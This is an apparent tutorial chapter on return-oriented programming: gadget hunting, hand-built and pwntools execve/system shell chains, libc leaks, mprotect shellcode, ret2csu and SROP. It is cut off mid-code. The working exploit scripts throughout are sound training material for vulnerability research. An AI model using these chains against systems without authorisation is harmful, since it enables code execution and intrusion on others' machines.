








**Level:** Expert · **Track:** Vulnerability Research · **Read time:** 270 min

This is Chapter 3 of the Binary Exploitation notebook. Chapter 2 ended at the doorway of this technique: to defeat the non-executable stack (NX/DEP) we returned into `system` with a single `pop rdi; ret` gadget — a two-gadget ret2libc. Return-oriented programming is the full generalisation of that idea. Instead of injecting our own machine code (which NX forbids from running), we assemble a program out of tiny fragments of code that *already exist and are already executable* inside the binary and its libraries, stitched together by the `ret` instruction.

ROP is the central technique of modern binary exploitation. Once you can build an arbitrary ROP chain you can call any function with any arguments, invoke any syscall, make memory executable and jump into your own shellcode after all, or spawn a shell in a single magic gadget. Everything after this chapter — canary and ASLR bypasses (Chapter 4), format-string write primitives (Chapter 5), heap control-flow hijacks (Chapter 6) — ultimately hands control to a ROP chain. Master this and the rest is plumbing.

Same scope as the whole notebook: everything targets binaries you own or are authorised to test. ROP is exactly how a vulnerability researcher demonstrates that a memory-corruption bug is *exploitable* (not merely a crash), which is what turns a low-severity finding into a critical one that gets fixed.

---

## Part 1: What DEP/NX Enforces, and Why It Broke Shellcode

**Data Execution Prevention (DEP)**, implemented in hardware as the **NX (No-eXecute) bit** on page-table entries, marks memory pages as either writable or executable but — for data pages like the stack and heap — never both. When the CPU's instruction pointer lands on a page without the execute permission, it raises a fault and the process dies. The stack is `rw-`, the heap is `rw-`, and only `.text` and library code are `r-x`.

The consequence for Chapter 2's stack shellcode is fatal: you can still *write* your shellcode onto the stack, and you can still overwrite the return address to point at it, but the moment `ret` transfers control into your stack bytes, the CPU sees a non-executable page and faults. NX does not stop you controlling RIP; it stops the *payload* you used to point RIP at.



The escape is elegant: if you cannot run *new* code, run *existing* code. The binary and libc are full of executable instructions; NX has no objection to you executing them in an unusual order. ROP turns the program's own code against it.

**Checking NX** is the first line of every session (Chapter 1):

```bash
pwn checksec ./target
# NX:  NX enabled   -> stack/heap non-executable -> you need ROP (this chapter)
```

Two footnotes worth knowing. First, some old or embedded systems ship NX off, where Chapter 2's shellcode still works. Second, NX can be *bypassed to run shellcode anyway* by using ROP to call `mprotect` and mark a page executable — the best of both worlds, covered in Part 9. NX raises the bar; it does not close the door.

---

### A brief arms race — how we got here

ROP did not appear in a vacuum; it is one move in a decades-long back-and-forth between exploit and mitigation. Seeing the sequence explains why each technique in this notebook exists:

| Era | Attack | Defence that answered it |
|-----|--------|--------------------------|
| 1996 | stack shellcode ("Smashing the Stack") | stack canaries (StackGuard) |
| ~2000 | overflow past the canary / info leak | ASLR + non-exec stack (PaX) |
| ~2001 | ret2libc (return into `system`) | — (register args on x86-64 raised the bar) |
| 2007 | **ROP** (Shacham) — arbitrary computation from gadgets | ASLR hardening, more mitigations |
| ~2013 | SROP, ret2csu, BROP (blind ROP) | fine-grained CFI research |
| 2014+ | JIT-spray, data-only attacks | Clang CFI, CET (shadow stack + IBT) |

Each attacker move targeted the assumption the previous defence relied on: canaries assumed you must overwrite contiguously; NX assumed you must inject code; ASLR assumed you cannot learn addresses; CFI/CET assume `ret`/indirect-jumps go to legitimate targets. Every chapter of this notebook is a station on that timeline, and ROP is the hinge the modern half swings on.

---

## Part 2: The Gadget — Anatomy and Intuition

A **gadget** is a short sequence of machine instructions ending in a `ret` (or another indirect branch). Because `ret` pops the next value off the stack into RIP, and because *you* control the stack via the overflow, you control which gadget executes next. A chain is just a stack full of gadget addresses interleaved with the data those gadgets consume.

The canonical gadget is the register loader:

```asm
pop rdi        ; take the next 8 bytes off the stack into RDI
ret            ; return to the next address on the stack
```

Place `[addr of "pop rdi; ret"] [value] [next gadget]` on the stack, and execution does: pop the value into RDI, then `ret` to the next gadget. Chain several and you set up every argument register, then place a function address to call it.

Why does `ret` make this work? Recall from Chapter 1 that `ret` is literally "pop RIP." It trusts the stack absolutely. In normal execution the stack holds the legitimate return address a `call` pushed; in a ROP chain the stack holds a sequence of addresses *you* wrote. The CPU cannot tell the difference — it just pops and jumps, pops and jumps.

```mermaid
sequenceDiagram
    participant S as Stack (attacker-controlled)
    participant CPU as CPU / RIP
    Note over S: [pop rdi;ret][0xbin_sh][pop rsi;ret][0][system]
    CPU->>S: ret -> pop "pop rdi;ret" into RIP
    CPU->>S: pop rdi = 0xbin_sh ; ret
    CPU->>S: pop "pop rsi;ret" ; pop rsi = 0 ; ret
    CPU->>S: ret -> system  (RDI already set) -> shell
```

### Unintended gadgets, seen concretely

The reason a small binary yields thousands of gadgets is that x86 instructions are variable-length and can be decoded starting at *any* byte. Consider a legitimate instruction that loads a constant:

```
intended:   48 c7 c7 3b 00 00 00     mov rdi, 0x3b
```

If a `ret` (`c3`) happens to sit a few bytes later, then *starting the decode one byte in* gives a completely different, useful instruction stream that the compiler never emitted and no disassembler shows in the normal listing. ROPgadget decodes from every offset and surfaces these. A famous example: the byte sequence for `pop rdi; ret` (`5f c3`) frequently appears as the tail of longer instructions, which is why `pop rdi; ret` is almost always available even in binaries that never intended it. **The practical upshot:** do not assume a gadget is missing because you cannot see it in Ghidra's clean disassembly — always enumerate with ROPgadget/ropper, which decode the unaligned streams.

Gadgets come in families, and you will hunt for each type:

| Gadget type | Example | Purpose |
|-------------|---------|---------|
| Register load | `pop rdi ; ret` | set an argument or value |
| Register move | `mov rdi, rax ; ret` | shuttle a value between registers |
| Memory write | `mov [rdi], rsi ; ret` | write a value to a chosen address |
| Memory read | `mov rax, [rdi] ; ret` | read memory into a register |
| Arithmetic | `add rax, rdx ; ret` | compute values (e.g. build a syscall number) |
| Syscall | `syscall ; ret` | invoke the kernel directly |
| Stack pivot | `pop rsp ; ret`, `leave ; ret` | relocate the stack to a bigger buffer |
| Alignment | `ret` | nudge RSP by 8 for 16-byte alignment |

The art of ROP is finding the gadgets you need among the ones that happen to exist. On a large binary or libc there are tens of thousands; on a tiny static binary you may have to be creative (Part 8's ret2csu exists precisely for gadget-poor targets).

---

## Part 3: Finding Gadgets — ROPgadget and ropper (Tools From Scratch)

**What they are.** `ROPgadget` and `ropper` are tools that disassemble a binary at every offset (including "unintended" instructions that appear when you start decoding mid-instruction) and list every sequence ending in `ret`/`jmp`/`call`. They are how you discover the raw material for a chain.

**Why they exist.** Finding gadgets by eye in a disassembler is hopeless — a useful `pop rdi; ret` might be an unintended decoding hidden inside a longer instruction. These tools enumerate all of them and let you grep.

**Install and use:**

```bash
pip install ROPgadget ropper

# Dump every gadget, then grep for the one you need
ROPgadget --binary ./target | grep ': pop rdi ; ret'
# 0x0000000000401256 : pop rdi ; ret

ROPgadget --binary ./target | grep 'syscall'
# 0x0000000000401033 : syscall ; ret

# ropper has a nicer search and can search for semantic effects
ropper -f ./target --search 'pop rdi'
ropper -f ./target --search 'mov qword ptr [%], %'   # % = wildcard -> memory-write gadgets
```

**Unintended gadgets** are the subtle superpower here. The bytes `48 c7 c0 3b 00 00 00` are `mov rax, 0x3b`, but if you jump one byte in, `c7 c0 3b 00 00 00` decodes as a different instruction. x86 is a variable-length, unaligned instruction set, so almost any byte offset is a valid (if bizarre) instruction stream — which is why a modest binary yields thousands of gadgets. ROPgadget finds these; you would never spot them by reading the intended disassembly.

For libc specifically, pwntools' `ROP(libc)` object indexes gadgets for you, and `one_gadget` (Chapter 2) finds the single-address shells. Combine all three: ROPgadget/ropper for discovery, pwntools `ROP` for automated chaining, `one_gadget` for the finisher.

---

### Choosing clean gadgets — side effects will bite you

Not all gadgets that "set RDI" are equal. `ROPgadget` will offer you `pop rdi; ret` but also `pop rdi; pop rbp; ret`, `add byte [rax], al; pop rdi; ret`, and worse. The extra instructions have **side effects** that can wreck your chain:

- A gadget that pops extra registers consumes extra stack slots — you must account for each (Part 4's verification section).
- A gadget with a memory access (`add byte [rax], al`) will **fault** if the register it dereferences (here RAX) does not point at writable memory at that moment.
- A gadget that clobbers a register you already set up (`pop rdi; mov rsi, 0; ret`) silently undoes prior work.

The discipline: prefer the shortest, cleanest gadget for the job, and when you must use a dirty one, ensure its side-effect registers are in a safe state (e.g. RAX points somewhere writable) before you reach it.

| Gadget offered | Verdict | Why |
|----------------|---------|-----|
| `pop rdi ; ret` | clean | exactly one effect |
| `pop rdi ; pop rbp ; ret` | usable | budget one junk slot for rbp |
| `add [rax], al ; pop rdi ; ret` | dangerous | faults unless RAX is writable |
| `pop rdi ; mov eax, 0 ; ret` | situational | fine unless you needed RAX |

pwntools' `ROP` planner prefers clean gadgets automatically, but when you hand-pick from ROPgadget output, read the *whole* gadget, not just the instruction you wanted.

---

## Part 4: Building a Chain by Hand

Before letting pwntools automate chains, build one manually so you understand what the automation produces. Goal: call `execve("/bin/sh", NULL, NULL)` via a direct syscall (no libc `system` needed), using gadgets from a static binary. Recall the syscall convention from Chapter 1: `RAX=59` (execve), `RDI=&"/bin/sh"`, `RSI=0`, `RDX=0`, then `syscall`.

Suppose ROPgadget found these:

```
0x401256 : pop rdi ; ret
0x401258 : pop rsi ; ret
0x40125a : pop rdx ; ret
0x40125c : pop rax ; ret
0x401033 : syscall ; ret
0x404000 : (writable .bss address we'll put "/bin/sh" into)
0x40125e : mov qword ptr [rdi], rsi ; ret   (memory write)
```

Step 1 — write `"/bin/sh\0"` into a known writable address (.bss), because a static binary may not contain the string. Use the memory-write gadget:

```
[pop rdi] [0x404000]            ; RDI = &.bss
[pop rsi] [0x0068732f6e69622f] ; RSI = "/bin/sh\0" as a little-endian qword
[mov [rdi], rsi]               ; write it: .bss now holds "/bin/sh"
```

Step 2 — set up the execve registers and fire the syscall:

```
[pop rdi] [0x404000]   ; RDI = &"/bin/sh"
[pop rsi] [0x0]        ; RSI = NULL (argv)
[pop rdx] [0x0]        ; RDX = NULL (envp)
[pop rax] [0x3b]       ; RAX = 59 = execve
[syscall]              ; execve("/bin/sh", NULL, NULL) -> shell
```

As a pwntools payload:

```python
from pwn import *
context.binary = './target'
p = flat(
    b'A'*offset,
    0x401256, 0x404000,                    # pop rdi ; .bss
    0x401258, 0x0068732f6e69622f,          # pop rsi ; "/bin/sh\0"
    0x40125e,                              # mov [rdi], rsi   -> write string
    0x401256, 0x404000,                    # pop rdi ; &"/bin/sh"
    0x401258, 0x0,                         # pop rsi ; 0
    0x40125a, 0x0,                         # pop rdx ; 0
    0x40125c, 0x3b,                        # pop rax ; 59
    0x401033,                              # syscall
)
```

Read it top to bottom as a program: it *is* a program, written in the instruction set of "addresses on a stack." That mental model — a ROP chain is a program whose instructions are gadget addresses — is the whole game.

The stack the chain executes against looks like this at the moment `vuln` returns (low address = top = executes first):

```
rsp -> [0x401256]  pop rdi ; ret        <- ret pops THIS into RIP first
       [0x404000]  <- consumed by pop rdi  (RDI = &.bss)
       [0x401258]  pop rsi ; ret
       [/bin/sh\0] <- consumed by pop rsi  (RSI = "/bin/sh")
       [0x40125e]  mov [rdi], rsi ; ret   <- writes string into .bss
       [0x401256]  pop rdi ; ret
       [0x404000]  <- RDI = &"/bin/sh"
       [0x401258]  pop rsi ; ret
       [0x000000]  <- RSI = 0
       [0x40125a]  pop rdx ; ret
       [0x000000]  <- RDX = 0
       [0x40125c]  pop rax ; ret
       [0x00003b]  <- RAX = 59 (execve)
       [0x401033]  syscall               <- execve("/bin/sh",0,0)
```

Notice how each `pop` gadget consumes exactly the slot directly beneath it — that is the "budget one slot per popped register" rule from Part 4's verification section, made visual. Every data value sits immediately after the gadget that pops it.



---

### Verifying a hand-built chain in GDB, gadget by gadget

Never trust a chain you have not watched execute. Set a breakpoint on the `vuln` return and single-step through the chain, confirming each gadget does what you think:

```bash
pwndbg> break *vuln+43        # the ret that starts the chain
pwndbg> run < payload.bin
pwndbg> ni                    # step the ret -> lands on "pop rdi ; ret"
# pwndbg context shows RIP = 0x401256 (pop rdi ; ret)
pwndbg> ni                    # pop rdi
pwndbg> p/x $rdi
$1 = 0x404000                 # confirmed: RDI = &.bss, as intended
pwndbg> ni                    # ret -> next gadget
pwndbg> telescope $rsp 8      # see what remains of the chain on the stack
```

Watching `$rdi`, `$rsi`, `$rdx`, `$rax` take your intended values one gadget at a time is how you localise a broken chain to a single slot. When RIP jumps somewhere unexpected, the *previous* gadget consumed the wrong number of stack slots — usually a gadget that pops more registers than you accounted for (a `pop rdi; pop rbp; ret` where you assumed just `pop rdi; ret`). The stack layout must budget one 8-byte slot for **every** register a gadget pops, not just the one you care about.



---

## Part 5: Automating Chains with pwntools ROP

Hand-building is instructive but tedious and error-prone. pwntools' `ROP` object plans chains for you: you say "call this function with these args," and it selects gadgets and lays out the stack.

```python
from pwn import *
context.binary = elf = ELF('./target')

rop = ROP(elf)
rop.execve(next(elf.search(b'/bin/sh')), 0, 0)   # high-level: plan execve(...)
print(rop.dump())                                 # human-readable chain it built
payload = b'A'*offset + rop.chain()               # the raw bytes
```

`rop.dump()` prints exactly which gadgets it chose and what each stack slot means — invaluable for learning and for debugging a chain that does not fire. You can also drive it imperatively:

```python
rop = ROP([elf, libc])                 # search gadgets across binary AND libc
rop.raw(rop.find_gadget(['ret']))      # alignment
rop.call('system', [next(libc.search(b'/bin/sh'))])   # plan system("/bin/sh")
rop.call('exit', [0])                  # graceful exit after
payload = fit({offset: rop.chain()})   # fit/flat lays it out with padding
```

pwntools understands the calling convention, so `rop.call('system', [binsh])` automatically inserts the `pop rdi; ret` gadget and the argument — the two-gadget ret2libc from Chapter 2, generated for you. For anything beyond a couple of calls, always let `ROP` plan it and use `dump()` to verify.



---

## Part 6: The Two-Stage Leak, Done Properly

Chapter 2 previewed the leak; here it is the load-bearing technique, because every ROP-against-ASLR exploit needs libc's runtime base. The reliable recipe:

1. **Stage 1 — leak.** ROP-call `puts(puts@got)` (or `write(1, got_entry, 8)` if output is raw), which prints libc's resolved address of that function, then return into `main`/`vuln` to get a second overflow.
2. **Rebase.** `libc.address = leak - libc.symbols['puts']`.
3. **Stage 2 — exploit.** Now every libc symbol and the `"/bin/sh"` string have known runtime addresses; send a second ROP chain for `system("/bin/sh")` or a `one_gadget`.

```python
from pwn import *
elf  = context.binary = ELF('./target')
libc = ELF('./libc.so.6')
rop  = ROP(elf)

io = process(elf.path)
# stage 1: puts(puts@got) then re-enter main
rop.call('puts', [elf.got['puts']])
rop.call(elf.symbols['main'])
io.sendlineafter(b'input: ', b'A'*offset + rop.chain())
leak = u64(io.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.symbols['puts']
log.success(f'libc @ {libc.address:#x}')

# stage 2: system("/bin/sh") with libc now rebased
rop2 = ROP(libc)
rop2.raw(rop2.find_gadget(['ret']))            # alignment
rop2.call('system', [next(libc.search(b'/bin/sh'))])
io.sendlineafter(b'input: ', b'A'*offset + rop2.chain())
io.interactive()
```

**Which function to leak?** Any GOT entry works, but leak one whose libc offset you know for the exact target libc. In CTFs the libc is provided; against an unknown libc, leak two symbols' low bytes and use a libc-identification database to fingerprint the version, then download that libc for correct offsets. Getting the wrong libc's offsets is the single most common reason a "correct-looking" ROP exploit rebases to garbage and crashes.

### Identifying an unknown libc from a leak

The lowest 12 bits (three hex digits) of a libc symbol's address are fixed regardless of ASLR, because randomisation only shifts the base by whole pages. So if you leak the runtime addresses of two functions, their low bytes uniquely fingerprint the libc build. The **libc-database** project and the online **libc.rip** service map "these symbols end in these bytes" to an exact libc:

```bash
# Local libc-database lookup: symbol -> last 12 bits
./find puts 5f0 printf 660
# ubuntu-glibc (libc6_2.31-0ubuntu9_amd64)  <- the exact build
./dump libc6_2.31-0ubuntu9_amd64 system str_bin_sh   # offsets for THIS libc
```

```python
# Programmatic: query libc.rip with two leaked symbols to auto-resolve offsets
import requests
r = requests.post('https://libc.rip/api/find',
                  json={'symbols': {'puts': hex(puts_leak & 0xfff),
                                    'printf': hex(printf_leak & 0xfff)}})
info = r.json()[0]
system_off = int(info['symbols']['system'], 16)   # use with your leaked base
```

The workflow when the target's libc is unknown: leak two GOT entries in stage 1, fingerprint the libc, compute `libc_base = puts_leak - puts_offset_for_that_build`, then proceed. This is routine in real-world (non-CTF) exploitation where you do not get a copy of the target's libc handed to you.

### Leaking without `puts`: the `write` variant

If the program's output path is a raw socket (no `puts` echoing to it), use `write(1, got_entry, 8)` instead — it dumps 8 raw bytes of the GOT entry to fd 1. This needs RDX set to 8, which is exactly the "no clean `pop rdx`" situation that motivates **ret2csu** (Part 8):

```python
rop = ROP(elf)
rop.write(1, elf.got['read'], 8)     # pwntools uses ret2csu to set RDX if needed
rop.call(elf.symbols['vuln'])
```

---

## Part 7: mprotect + Shellcode — Have Your Cake and Eat It

ROP lets you call *any* function, including `mprotect(addr, len, PROT_READ|PROT_WRITE|PROT_EXEC)`, which flips a data page to executable. So the NX bypass can *restore* the ability to run shellcode: ROP-call `mprotect` to make the stack (or a .bss page holding your shellcode) executable, then `ret` into the now-executable shellcode. This is often simpler than a long syscall chain and is the standard approach when you have plenty of buffer space.

```python
# Make the page containing our shellcode executable, then jump to it.
shellcode = asm(shellcraft.amd64.linux.sh())
page = 0x404000 & ~0xfff                    # page-align the target address
rop  = ROP(elf)
rop.mprotect(page, 0x1000, 7)               # PROT_READ|WRITE|EXEC = 7
rop.raw(sc_addr)                            # ret into the shellcode we placed at sc_addr
```

The constraints: you need a writable location to stash the shellcode (a `read` into .bss, or the overflow buffer itself if it is in a page you make executable), the page must be page-aligned for `mprotect`, and you need the gadgets to set `mprotect`'s three arguments (RDI, RSI, RDX). On a static binary `mprotect` is present directly; on a dynamic one you leak libc first (Part 6) or use its PLT if RELRO/lazy binding allows.



---

## Part 8: ret2csu — Setting Args When You Lack Gadgets

Small, statically-linked binaries sometimes lack a `pop rsi; ret` or `pop rdx; ret`, which you need to set the 2nd and 3rd arguments. **ret2csu** exploits a universal gadget the compiler links into almost every dynamically-linked ELF: the `__libc_csu_init` function contains a stretch that pops `rbx, rbp, r12, r13, r14, r15` and then `mov`s some of them into `rdx, rsi, rdi` before an indirect `call` — a Swiss-army gadget for loading the argument registers.

```asm
; __libc_csu_init tail (the classic ret2csu gadget, pre-glibc-2.34)
; gadget 1 (loader): pops values
    pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
; gadget 2 (mover): moves them into arg registers and calls [r12+rbx*8]
    mov rdx, r13 ; mov rsi, r14 ; mov edi, r15d ; call [r12+rbx*8]
    add rbx, 1 ; cmp rbx, rbp ; jne ...
```

By setting `rbx=0`, `rbp=1` (so the loop runs once and falls through), `r12`=pointer to a function pointer to call, and `r13/r14/r15` to your desired `rdx/rsi/rdi`, you can call any function with three controlled arguments even with no dedicated `pop` gadgets. pwntools automates it: `ROP.call` will use ret2csu when it must.

**When you need it:** gadget-poor static binaries, and any time you must control RDX (very common — `write(1, buf, len)` and `read(0, buf, len)` both need RDX and few binaries have a clean `pop rdx`). Recognising "I can't set RDX" → "reach for ret2csu" is the mark of someone who has done this before. Note glibc 2.34+ changed the CSU code, so on newer targets you look for equivalent `pop`-and-`mov` sequences elsewhere (pwntools' `ret2csu` and gadget search handle much of this).

---

### The ret2csu register map

The reason ret2csu is worth memorising is the register plumbing — which popped value ends up where:

| You set (via the pop gadget) | Ends up in | Used as |
|------------------------------|-----------|---------|
| `rbx` = 0 | loop index | must be 0 so `call [r12+rbx*8]` calls `[r12]` |
| `rbp` = 1 | loop bound | must equal `rbx+1` so the loop runs once and exits |
| `r12` = &func_ptr | `call [r12+rbx*8]` target | pointer to the function pointer to call |
| `r13` → `rdx` | 3rd argument | e.g. length for `write`/`read` |
| `r14` → `rsi` | 2nd argument | e.g. buffer address |
| `r15` → `edi` (32-bit!) | 1st argument | note: only the low 32 bits of RDI are set |

That last row is a classic trap: the mover does `mov edi, r15d`, setting only the **low 32 bits** of RDI. If your first argument must be a full 64-bit pointer (a libc address), ret2csu alone cannot set it — you follow up with a `pop rdi; ret` to fix RDI, or you point `r12` at a GOT entry whose function you are calling. Knowing this quirk saves an hour of "why is my RDI truncated."

```python
# pwntools handles the layout, but you can see it:
rop = ROP(elf)
rop.ret2csu(edi=1, rsi=elf.got['write'], rdx=8, call=elf.symbols['write'])
print(rop.dump())     # shows the two-gadget csu layout with your values
```

---

## Part 9: SROP — Sigreturn-Oriented Programming

When gadgets are extremely scarce but you have a `syscall` and control of the stack, **SROP** gives you full register control with essentially one gadget. The trick abuses the kernel's signal-return mechanism: when a signal handler returns, the kernel restores *all* registers from a `sigcontext` structure it pushed on the stack. If you forge that structure on the stack and trigger `rt_sigreturn` (syscall 15), the kernel obligingly loads every register — RIP, RSP, RDI, RSI, RDX, RAX, everything — from your fake frame.

```python
from pwn import *
context.binary = './target'
frame = SigreturnFrame()          # pwntools builds the sigcontext for you
frame.rax = constants.SYS_execve  # 59
frame.rdi = binsh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_gadget        # a bare 'syscall' address
# Chain: set RAX=15 (rt_sigreturn), syscall, then the forged frame
payload  = b'A'*offset
payload += p64(pop_rax) + p64(15) + p64(syscall_gadget)
payload += bytes(frame)           # the fake sigcontext the kernel restores from
```

SROP needs: a way to set `RAX=15`, a `syscall` gadget, a writable place holding `"/bin/sh"`, and enough stack space for the ~248-byte frame. In exchange it sets *every* register at once — the highest-leverage single primitive in ROP. It shines on tiny static binaries (some CTF challenges are literally a `read` into a buffer with one `syscall` gadget) and is the backbone of many minimal-gadget exploits.



---

### A complete SROP walkthrough

To make SROP concrete, here is the full logic on a minimal static binary whose only useful primitives are a `read` into a buffer and a `syscall` gadget. The plan: use SROP to call `execve("/bin/sh", 0, 0)` in one forged frame.

```python
from pwn import *
context.binary = elf = ELF('./srop_target')     # static, NX, no canary

offset   = 40
syscall  = elf.symbols['syscall_gadget']         # a bare 'syscall; ret'
pop_rax  = 0x...                                  # 'pop rax; ret'
binsh    = elf.bss(0x100)                         # where we'll stash "/bin/sh"

# Frame 1: rt_sigreturn(15) reads a sigcontext and sets ALL registers for execve.
frame = SigreturnFrame()
frame.rax = constants.SYS_execve                 # 59
frame.rdi = binsh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall                              # after restore, execute execve
frame.rsp = binsh                                # a sane stack

io = process(elf.path)
# Step A: write "/bin/sh" into bss using the program's own read()
#         (many SROP setups first read the string, then trigger sigreturn)
io.send(b'/bin/sh\x00')

# Step B: overflow -> set rax=15, syscall (=rt_sigreturn), then the frame
payload  = b'A'*offset
